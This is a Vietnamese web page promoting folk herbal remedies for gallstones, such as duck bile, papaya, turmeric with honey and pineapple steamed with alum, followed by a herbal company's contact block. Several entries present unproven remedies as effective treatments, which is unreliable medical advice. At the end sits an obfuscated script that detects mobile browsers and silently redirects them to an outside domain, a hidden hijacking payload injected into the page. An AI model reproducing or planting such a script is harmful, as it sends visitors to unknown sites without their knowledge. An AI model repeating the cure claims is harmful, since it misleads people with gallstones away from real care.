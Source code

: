 Top 13+ Mẹo hỗ trợ điều trị Sỏi Mật Bằng Thảo Dược Dễ Thực Hiện Tại Nhà


Theo y học dân gian thì có rất nhiều bài thảo dược từ các loại cây cỏ dễ kiếm quanh nhà có tác dụng điều trị sỏi mật tại mà người bệnh có thể sử dụng.

Dùng hạt đười ươi
Hạt đười ươi còn có tên gọi khác như Đại Hải Tử, Đại Hải, Đại Hồng Quả. Là loại hạt lấy từ cây ươi – một loại cây gỗ lớn trong rừng, thân cao đến 25-40m chỉ sinh trưởng ở một số nước Đông Nam Á, Lào, Thái Lan, Malaysia và Việt Nam.
Đây là loại hạt có vị ngọt, có tính thanh nhiệt, lợi cổ họng và giải độc, được sử dụng nhiều trong các bài thuốc chữa nóng nhiệt, chữa táo bón và chữa gai cột sống, viêm họng, nhức răng… Đặc biệt, người ta hay dùng hạt đười ươi chữa sỏi mật.

Rau dền gai
Rau dền gai là cây thuộc họ rau dền, có vị ngọt, tính mát tác là dụng thanh nhiệt, chữa bí tiểu, đau họng, chảy máu cam. Đặc biệt rau dền gai là vị thuốc chữa sỏi mật hiệu quả.

Dầu oliu
Dầu oliu là một loại thuốc được sử dụng để điều trị các bệnh như: Gan, mật, dạ dày, ruột, bệnh ngoài da,… Mẹo chữa sỏi mật bằng dầu ô liu được truyền miệng và phổ biến trên internet nhưng chưa có một tài liệu khoa học nào ở Việt Nam hay thế giới đề cập đến hiệu quả của phương pháp này.

Bài thảo dược từ quả sung
Quả sung có chữa được sỏi mật không là thắc mắc nhiều người bệnh đặt ra.. Trên thực tế thì, quả sung được coi là một loại thuốc quý để điều trị sỏi mật tại nhà.

Theo y học cổ truyền, quả sung có vị ngọt, hơi chát, có tác dụng kiện tỳ, ích vị, nhuận phế, giải độc cơ thể. Từ xa xưa quả sung được sử dụng trong các bài thuốc để điều trị bệnh về tim mạch, viêm loét dạ dày, viêm họng, điều trị sỏi…

Bài thảo dược mật vịt chữa sỏi mật
Một trong những mẹo chữa sỏi mật dân gian hay lưu truyền là dùng mật vịt chữa sỏi mật. Điều này xuất phát từ do quan sát thực tế khi vịt thường ăn sỏi, vỏ ốc, vỏ hến nhưng lại không bị sỏi mật bao giờ vì dịch mật đã giúp con vật này tiêu hoá hết những thứ đã ăn vào. Chính vì thế, con người dùng mật vịt sẽ thúc đẩy tiêu hoá tốt hơn, bào mòn những viên sỏi trong cơ thể người.

Mẹo sỏi mật từ đu đủ xanh
Đu đủ là loại quả nhiệt đới được nhiều người ưa thích, và được sử dụng để điều trị nhiều bệnh theo y học cổ truyền. Đu đủ có vị ngọt, tính hàn, mùi hắc, công dụng thanh nhiệt, bổ tỳ, làm mát gan, nhuận tràng và giải độc. Quả đu đủ xanh được sử dụng nhiều cho các bà mẹ mới sinh để kích thích tuyến sữa và cách chữa sỏi mật dân gian.


Mẹo sỏi mật bằng cây rau ngổ
Một mẹo chữa sỏi mật tại nhà được nhiều người bệnh áp dụng là sử dụng cây rau ngổ. Theo Đông y thì rau ngổ có tính mát, thanh nhiệt, có tác dụng kháng viêm, tiêu độc, giảm cơn đau túi mật khi ức chế co thắt các cơ trong túi mật và hỗ trợ bài trừ viên sỏi mật ra khỏi cơ thể.

Quả dứa hấp phèn chua
Quả dứa có vị ngọt, tính bình, công dụng nhuận tràng, sinh tân dịch, lợi tiểu và kích thích tiêu hoá. Loại quả này từ lâu đã được sử dụng để hỗ trợ điều trị các triệu chứng sỏi mật, sỏi thận, sỏi tiết niệu,…

Nghệ và mật ong điều trị sỏi mật tại nhà
Trong nghệ có thành phần cucurmin có tác dụng lợi mật, cải thiện chất lượng của dịch mật. Khi sử dụng nghệ với mật ong có thể kháng viêm, làm giảm đau và giảm các triệu chứng của bệnh. Mẹo chữa sỏi mật bằng cách sử dụng nghệ và mật ong rất dễ thực hiện, kiên trì sử dụng phương pháp này những triệu chứng bệnh sẽ giảm một cách rõ rệt.

Nước ép củ cải, dưa chuột và cà rốt
Một trong những mẹo chữa sỏi mật tại nhà bằng các thảo dược tự nhiên được nhiều người áp dụng là dùng nước ép từ củ cải, dưa chuột và cà rốt. Dưa chuột và cà rốt có hàm lượng nước, chất xơ và vitamin C rất dồi dào, còn củ cải lại có tác dụng đào thải độc tố và cặn bã trong gan và túi mật. Nước ép từ 3 loại củ, quả này giúp người bệnh tăng cường sức đề kháng, kháng viêm, và kích thích viên sỏi bài tiết ra ngoài cơ thể.

hỗ trợ điều Trị sỏi mật bằng cây bồ công anh
Các nghiên cứu khoa học về công dụng của cây bồ công anh đã cho thấy khả năng kích thích bài tiết mật ở gan, kích thích chuyển hoá chất béo, tăng cường chức năng co bóp của túi mật từ đó giúp làm giảm các triệu chứng của bệnh ở túi mật.

Cây kim tiền thảo
Kim tiền thảo có tên khoa học là Desmodium styracifolium, là loại thảo dược được nghiên cứu và bào chế nhiều trong các bài thuốc Đông y để trị sỏi mật. Các hoạt chất có trong kim tiền thảo có tác dụng kích thích bài tiết dịch mật, cân bằng nồng độ lecithin, axit và cholesterol trong túi mật, nên giảm được nguy cơ sỏi phát triển.

hỗ trợ điều Trị sỏi mật bằng cây râu mèo
Theo y học cổ truyền cây râu mèo có vị ngọt, đắng nhẹ, có tác dụng thanh nhiệt, giải độc, kích thích tiểu tiện. Nghiên cứu của y học hiện đại chỉ ra các hoạt chất Orthosiphonin và tanin có trong cây râu mèo làm thông thoáng đường tiết niệu, giúp cho các chất cặn bã trong túi mật được đẩy ra ngoài qua đường bài tiết.


THÔNG TIN LIÊN HỆ

CÔNG TY THẢO DƯỢC PHAMPHULAM

Chịu trách nhiệm xuất bản: Giám đốc - Đặng Ngọc Huy

Điện thoại: 0208.3.644504/ Fax: 0208.3.555437; Email: RGDTte@thainguyen.gov.vn

Địa chỉ: Số 553 đường Phùng Chí Kiên, phường Túc Duyên, thành phố Thái Nguyên, tỉnh Thái Nguyên

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.tenmien21.click/soithuy",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>

